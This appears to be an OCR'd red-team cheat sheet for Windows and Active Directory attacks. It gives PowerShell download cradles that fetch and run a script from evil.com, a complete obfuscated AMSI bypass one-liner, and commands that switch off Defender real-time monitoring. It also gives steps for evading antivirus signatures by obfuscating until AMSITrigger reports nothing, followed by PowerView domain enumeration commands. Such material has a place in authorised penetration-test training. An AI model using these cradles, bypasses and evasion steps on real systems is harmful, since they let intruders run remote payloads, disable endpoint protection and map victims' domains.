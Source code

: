 Download executable Cradle
Old and lengthy - 
((New-Object Net.WebClient).DownloadString('http://evil.com/evil.ps1'))
New and better - (PSv3 onwards)
iex (iwr 'http://evil.com/evil.ps1')
NOTE : iwr is alias for Invoke-WebRequest, which can be used like -
Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile payload.exe
or
iwr http://example.com/payload.exe -o payload.exe
AMSI bypass -
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
Bypassing Real time monitoring (admin access) -
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Bypassing Powershell Security -
using #Invisi-Shell
With Admin privileges -
RunWithPathAsAdmin.bat
With non-admin privileges - (Recommended)
RunWithRegistryNonAdmin.bat
Bypass AV Signatures for PowerShell
For full obfuscation of of powershell scripts use - Invoke-Obfuscation (https://github.com/danielbohannon/Invoke-Obfuscation)
AMSITrigger & DefenderCheck
Steps to avoid signature based detection are pretty simple -
Scan using AMSITrigger
Modify the detection code snippet (can use Invoke-Obfuscation.ps1)
Rescan using AMSITrigger
Repeate step until get 'blank' output
1. Domain Enumeration -
Get Current Domain -
Get-Domain (PowerView)
Get-ADDomain (ActiveDirectory Module)
Get Object of other Domain -
Get-Domain -Domain example.local
Get-ADDomain -Identity example.local
Get Domain SID for the current Domain -
Get-DomainSID
(Get-ADDomain).DomainSID
Get Domain Policy for the current Domain -
Get-DomainPolicyData
(Get-DomainPolicyData).systemaccess
Get Domain policy for other Domain -
(Get-DomainPolicyData -domain example.local).systemaccess
Get Domain Controller for Current Domain -
Get-DomainContorller
Get-ADDomainController
Get Domain Controllers for another Domain -
Get-DomainController -Domain example.local
Get-ADDomainController -DomainName example.local -Discover
Get a list of users in the Current Domain -
Get-DomainUser
Get-DomainUser -Identity user1
Get-DomainUser | select SamAccountName
